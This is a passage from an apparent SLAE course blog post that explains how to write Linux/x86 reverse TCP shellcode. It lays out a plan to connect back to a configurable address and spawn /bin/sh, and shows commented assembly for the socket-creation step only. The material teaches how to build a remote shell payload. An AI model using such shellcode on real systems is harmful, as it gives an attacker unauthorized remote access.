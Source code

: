 ```yaml
---
layout: post
title: "SLAE Assignment 2 - Shell Reverse TCP (Linux/x86)"
---
```



### Assignment #2: Shell Reverse TCP Shellcode (Linux/x86)
The second assigment is to create Reverse TCP Shellcode which does following.
- Connects back to an IP address and port
- Execs a shell upon connection
- The IP address  and port number are configurable



So, our approach to writing assembly code for this challenge is as follows:
1. Create a socket with SYS_SOCKET
2. Connect to IP and Port with SYS_CONNECT
3. Redirect stdin, stdout, stderr with SYS_DUP2
4. Exec /bin/sh with SYS_EXECVE

### Create a socket with SYS_SOCKET
Since we have already explained in detail about how do we create a socket, there is no need to describe it further. Assembly code:
```nasm
		; int socketcall(int call, unsigned long *args)
						; socketcall - socket system calls
						; call determines which socket function to invoke
						; args points to a block containing the actual arguments, 
            ; which are passed through to the appropriate call.
						
		; int socket(int domain, int type, int protocol); 
						; [/usr/include/linux/net.h] 
						; [#define SYS_SOCKET 1] [sys_socket(2)]

		; domain 	= AF_INET	; [/usr/include/i386-linux-gnu/bits/socket.h] 
						; [#define AF_INET PF_INET]
						; [#define PF_INET 2]
						; [IP protocol family]	 

		; type 	= SOCK_STREAM	; [/usr/include/i386-linux-gnu/bits/socket.h]
						; [SOCK_STREAM = 1]
						; [Sequenced, reliable, connection-based byte streams]

		; protocol 	= IP_PROTO	; [/usr/include/linux/in.h] 
						; [IPPROTO_IP = 0]
						; [Dummy protocol for TCP]
		; sockfd = socket(2, 1, 0)

		; EAX = 0x66 			; sys_socketcall()
		; EBX = 0x1			  ; sys_socket()
		; ECX = Pointer to sys_socket arguments

		xor eax, eax
		push eax			    ; Argument 3 for socket() =>  	IPPROTO_IP = 0
		mov al, 0x66

		push byte 0x1
		pop ebx				    ; sys_socket()
		
		push byte 0x1			; Argument 2 for socket() => 	SOCK_STREAM = 1
		push byte 0x2			; Argument 1 for socket() => 	AF_INET	= 2	
		
		; Now we have arguments for socket() in the stack. ESP points to them.
```